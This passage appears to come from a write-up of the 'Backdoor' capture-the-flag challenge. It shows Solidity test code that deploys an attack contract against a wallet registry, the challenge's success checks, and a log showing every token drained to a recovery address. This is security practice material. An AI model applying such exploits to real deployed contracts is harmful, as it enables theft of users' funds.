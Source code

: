 ```solidity
        AttackWalletRegistry maliciousContract = new AttackWalletRegistry(
            address(token), address(singletonCopy), address(walletFactory), address(walletRegistry), recovery, users
        );

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the wallet registry", token.balanceOf(address(walletRegistry)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery address", token.balanceOf(recovery), token.decimals()
        );
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player must have executed a single transaction
        assertEq(vm.getNonce(player), 1, "Player executed more than one tx");

        for (uint256 i = 0; i < users.length; i++) {
            address wallet = walletRegistry.wallets(users[i]);

            // User must have registered a wallet
            assertTrue(wallet != address(0), "User didn't register a wallet");

            // User is no longer registered as a beneficiary
            assertFalse(walletRegistry.beneficiaries(users[i]));
        }

        // Recovery account must own all tokens
        assertEq(token.balanceOf(recovery), AMOUNT_TOKENS_DISTRIBUTED);
    }
}
```

### Test Result

```
Ran 2 tests for test/backdoor/Backdoor.t.sol:BackdoorChallenge
[PASS] test_assertInitialState() (gas: 55670)
[PASS] test_backdoor() (gas: 2080322)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the wallet registry: 40.000000000000000000
  token balance in the recovery address: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the wallet registry: 0.000000000000000000
  token balance in the recovery address: 40.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 11.99ms (3.95ms CPU time)

Ran 1 test suite in 243.77ms (11.99ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
